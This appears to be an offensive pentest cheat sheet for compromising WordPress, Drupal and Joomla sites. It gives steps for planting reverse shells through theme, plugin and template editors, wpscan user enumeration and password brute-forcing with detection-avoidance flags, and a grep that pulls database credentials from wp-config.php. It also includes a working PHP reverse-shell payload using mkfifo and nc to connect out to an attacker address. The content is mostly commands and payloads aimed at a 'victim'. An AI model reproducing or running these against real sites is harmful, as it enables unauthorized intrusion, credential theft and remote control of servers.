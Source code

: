- [Wordpress](#Wordpress)
- [Drupal](#Drupal)
- [Joomla](#Joomla)

-----------------------------------------------------------------------------------------------------------------------------------------------
# Wordpress

### Revereshell via thames
- Log_in
- Side menu
- Appearance
  - Editor
  - 404.php
  - paste php reverse shell
- run nc -lnvp [port]

- Open /wp-content/themes/twentyfiftee(change for your thames name)/404.php

### ReverseShell via plugins
- Log_in
- Side menu
- Plugins
  - Add New
  - Add Plugin Browse
  - search file for example in /wp-content location
- run nc -lnvp [port]

### nmap scan
```
nmap -sV --script http-wordpress-enum <target>
nmap --script http-wordpress-enum --script-args check-latest=true,search-limit=10 <target>
nmap --script http-wordpress-enum --script-args type="themes" <target>
```
### wpscan

#### update wpscan 
- wpscan update

#### Enumerating for installed themes
- Check Network tab for themes 


#### Scan
- wpscan --url https://[target_ip]
#### Vulnerable Plugins
- wpscan --url http://[victim_ip] --enumerate vp
- wpscan --url http://[victim_ip] --enumerate vp --plugins-detection aggressive
- wpscan --url http://[victim_ip] -e ap --plugins-detection aggressive
#### Vulnerable Themes
- wpscan --url http://[victim_ip] --enumerate vt
#### Enumerate Users
- wpscan --url http://[victim_ip] --enumerate u
#### Enumerate thames
- wpscan --url http://[victim_ip] --enumerate t 
#### Password Bruteforce
- wpscan --url http://[victim_ip] --passwords wordlist.txt --usernames xyz threads 50
#### Username Bruteforce
- wprscan --url http://[victim_ip] -U wordlist.txt 
#### All Plugins
- wpscan --url http://[victim_ip] --enumerate ap
#### All Themes
- wpscan --url http://[victim_ip] --enumerate vt
#### Database Exports
- wpscan --url http://[victim_ip] --enumerate dbe
#### Backups
- wpscan --url http://[victim_ip] --enumerate cb
##### Random User-Agent
- --random-user-agent
##### Avoid Detection(limited check)
- --stealthy
##### Disable SSL/TLS Security
- --disable-tls-checks
##### Disable Wordpress Detection
- --force
###### Docker pull the repo
- docker pull wpscanteam/wpscan
###### Docker Enumerate Usernames
- docker run -it --rm wpscanteam/wpscan --url
[victim_ip] --enumerate u
###### Get data from config file
- cat [/target/wp/path/wp-config.php |grep -E "DB_USER|DB_PASS"

----------------------------------------------------------------------------------------------------------------------------------------------------------

# Drupal

#### Drupal version enumerate
```
- [victim_ip]/CHANGELOG.txt
```

#### Droopscan
```
droopscan scan drupal -u [target_url]
```

#### commix

- https://github.com/commixproject/commix

----------------------------------------------------------------------------------------------------------------------------------------------------------

# Joomla 

## Editing Template Files and Getting a Reverse Shell 

- Extensions -> Templates -> Templates
- Add new file
- Create file with name add a malicious extension e.g(php)
Paste as content:
```
<?php
    system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc xxx.xxx.xxx.xxx 1234 >/tmp/f');
?>
```
- run via https://victim_url//templates/your_template_name/malicious_file_name.php


